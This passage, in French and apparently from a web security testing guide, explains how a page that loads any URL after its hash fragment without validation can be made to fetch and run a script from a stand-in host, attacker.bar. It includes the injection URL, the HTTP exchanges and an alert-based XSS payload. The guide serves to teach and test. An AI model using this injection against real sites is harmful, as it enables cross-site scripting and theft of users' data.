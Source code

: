 Par exemple, une requête comme celle-ci affichera le contenu du fichier `profile.php` :

`http://exemple.foo/main.php#profile.php`

Requête et réponse générées par `http://exemple.foo/profile.php` :

```html
GET /profile.php HTTP/1.1
Host: exemple.foo
[...]
Referer: http://exemple.foo/main.php
Connection: keep-alive

HTTP/1.1 200 OK
[...]
Content-Length: 25
Content-Type: text/html

[Response Body]
```

Maintenant, comme il n'y a pas de validation d'URL, nous pouvons injecter un script distant, qui sera injecté et exécuté dans le contexte du domaine `exemple.foo`, avec une URL comme celle-ci :

```text
http://exemple.foo/main.php#http://attacker.bar/file.php
```

Requête et réponse générées par `http://attacker.bar/file.php` :

```html
GET /file.php HTTP/1.1
Host: attacker.bar
[...]
Referer: http://exemple.foo/main.php
origin: http://exemple.foo

HTTP/1.1 200 OK
[...]
Access-Control-Allow-Origin: *
Content-Length: 92
Content-Type: text/html

Injected Content from attacker.bar <img src="#" onerror="alert('Domain: '+document.domain)">
```

## Références

- [Fiche de triche de sécurité OWASP HTML5](https://cheatsheetseries.owasp.org/cheatsheets/HTML5_Security_Cheat_Sheet.html#cross-origin-resource-sharing)
- [Partage de ressources cross-origin MDN](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
